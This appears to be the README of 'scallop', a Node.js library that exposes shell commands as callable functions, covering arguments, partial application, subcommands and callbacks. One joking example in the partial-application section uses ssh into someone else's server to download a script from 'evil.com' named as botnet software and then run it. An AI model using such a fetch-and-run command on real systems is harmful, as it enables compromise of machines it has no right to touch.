 <p align="center">
  <a href="https://github.com/bgw/scallop">
    <img src="https://raw.githubusercontent.com/bgw/scallop/master/logo.png"
         width="120px" alt="">
  </a>
</p>

<h1 align="center">Scallop</h1>

<p align="center">
  Shelling out with <code>child_process</code> is so&hellip; drab.
  <br>Relieve the tedium with <code>scallop</code>!
</p>

--------------------------------------------------------------------------------

```sh
$ npm i --save-dev scallop
```

```javascript
const scallop = require('scallop');
const curl = scallop('curl', {silent: true});

curl('http://httpbin.org/user-agent', (err, result) => {
  console.log(JSON.parse(result)['user-agent']); // curl/7.30.0
});
// Of course this is a horribly contrived example. You should use `http.get`.
```

Now everything in `$PATH` has node bindings!

Literal Arguments
-----------------

Anything you pass directly to your wrapper function gets passed through.

```javascript
const mkdir = scallop('mkdir');
mkdir('example_directory');
```

Multiple arguments can be provided.

```javascript
mkdir('-p', 'parent/child');
```

Spaces and the like are automatically escaped.

```javascript
mkdir('Some directory with spaces! Wooo! Rebellion!');
```

Remember that, because this is node, everything is asynchronous, all our calls
will return immediately and execute in parallel. [Libraries like
`async`](https://github.com/caolan/async) or promises are good mechanisms for
organizing this mayhem.

### Argument Expansion

Because `Function.apply` is needlessly ugly, you can simply pass arrays beside
literal arguments.

```javascript
const myFolders = ['folderA', 'folderB', 'folderC'];
mkdir('-p', '-v', myFolders);
// which is the same as
mkdir.apply(null, ['-p', '-v'].concat(myFolders));
// or in ES2015
mkdir('-p', '-v', ...myFolders);
```

You can even have nested lists, and they'll all be expanded upon evaluation.

Partial Application
-------------------

You know, I kinda wish `mkdir` supplied `-p` by default.

```javascript
mkdir = mkdir.partial('-p');
mkdir('another-parent/child');
```

Oh! Look at that! It's okay I guess. I just wish it required **exactly one**
less function call. If only we could apply the partial when creating `mkdir`....

```javascript
const mkdir = scallop('mkdir', '-p');
```

Alright. That looks cool, but kinda limited in use.

```javascript
const ssh = scallop('ssh');
const definitelyMyServer = ssh.partial('notmyserver.com', '-p 1234');
const remoteCurl = definitelyMyServer.partial('curl', '--silent');

remoteCurl('-O', 'http://evil.com/evil_botnet_software.sh');
definitelyMyServer('sh', 'evil_botnet_software.sh');
// Please only use this on PHP websites
```

### Subcommands

Subcommands are a special case of partial application. `git` uses these heavily.
We can define some of the common subcommands for `git` with the
`defineSubcommands` function.

```javascript
const git = scallop('git').defineSubcommands('status', 'add', 'rm', 'clone');
git.clone('https://github.com/bgw/scallop.git', 'scallop');
```

A subcommand can be defined by a `--dashed-argument`, just pass it to
`defineSubcommands`, and the dashes will be stripped and converted to
`camelCase`.

Some programs might use a tree of these subcommands, which can be accomplished
by defining subcommands with and object. Arrays of subcommands can be
intermingled, forming leaves, or falsy values can be provided to prune the tree.

```javascript
const sudo = scallop('sudo');
sudo.defineSubcommands({ls: null, git: ['status', 'add', 'rm'], echo: null});
sudo.git.add('important_file.txt');
```

#### ES2015 Harmony Proxy Syntax

Having to make a call to `defineSubcommands` sucks, and there's no real reason
(except a lack of language support) why the subcommands should ever have to be
explicitly predefined.

The ES2015 adds [object Proxies][]. These allow us to intercept accesses to an
underlying object. If you enable proxies by passing `--harmony-proxies` or
`--harmony` to `node`, then you can use some alternate syntax. There's no
portable way to compile away or polyfill the Proxy API. Eventually this
language feature should be enabled by default in future versions of node.

[object Proxies]: https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Proxy

```javascript
scallop.ssh['bgw@benjam.info'].git.rm('important_file.txt');
```

Take *that*, ES5!

Callbacks
---------

Because the output of commands is **occasionally useful**, I guess it might be
**moderately interesting** if there was some way to read them. The easiest way
is with a callback.

```javascript
const _s = require('underscore.string');
const ls = scallop('ls', '-1');
ls((err, result) => {
  if (err) {
    throw err; // Oh my god! Something horrible must have happened!
  }
  console.log(_s.strip(result).split('\n'));
});
// ['another_parent', 'example_directory', ... ]
```

**Warning:** All calls resulting in shell execution are asynchronous, so there's
no way to catch errors or control execution flow without a callback.

Keyword Arguments
-----------------

As the last argument (before a callback), you may specify keyword arguments as
an object. These keyword arguments get rewritten as follows:

-   Single letter keys get a single dash prepended to them: `-s`
-   Multi-letter keys get two dashes prepended to them: `--long`
-   Integer values get converted to strings
-   Boolean values trigger some special casing (see below)
-   The value is appended after the key, separated by an equals sign:
    `--key=value`

### Boolean Keyword Arguments

It makes sense to think of the keyword arguments as an "options argument".
Fitting this analogy, keyword arguments with boolean values get processed
differently:

-   When true, the keyword gets one or two dashes prepended to it. No value is
    written out.
-   When false, the entire entry is ignored.

As an example, the object

```javascript
{verbose: false, escape: true, color: false, literal: true, a: true}
```

Would translate into

```
--escape --literal -a
```

### Use with a callback

The callback is **always the last** argument. As a result, the call remains
readable with coffescript or ES2015 arrow function syntax.

```coffeescript
ls = sh 'ls'
ls '-1', all: true, recursive: false, (err, res) ->
  console.log res
```

```js
ls = sh('ls');
ls('-1', {all: true, recursive: false}, (err, res) => {
  console.log(res);
});
```

### "Special" Keyword Arguments

Keys prepended with an _underscore act a bit differently. The following special
arguments are supported

-   `_cwd`: Current working directory
-   `_env`: An object of environment variables
-   `_uid`: The numerical ID or the string username of the user to execute as
-   `_gid`: The numerical ID or the string group of the user to execute as
-   `_encoding`: The encoding of stdout and stderr as a string. [Any encoding
    node supports][] can be passed. If given a falsy value, such as `null`, the
    stream will be treated as binary. Default is `utf8`.
-   `_okCode`: A number or array of numbers representing valid exit codes.
    Defaults to `0`.

  [Any encoding node supports]: http://nodejs.org/api/stream.html#stream_readable_setencoding_encoding

Even More Stuff
---------------

I'm not done writing yet. But there's plenty more features in there, and many
ideas left to implement!

Portability
-----------

Because we're dealing with platform-specific commands, shelling out on Linux and
OS X will almost certainly be different than on Windows. Adding insult to
injury, I haven't even tested this on Windows. Oh well; it's not like Windows
has a significant market share.

See Also
--------

`scallop` is based on the python module, `sh` by Andrew Moffat. [`sh` is hosted
on GitHub.](http://amoffat.github.io/sh/) I even lifted some examples from his
documentation!
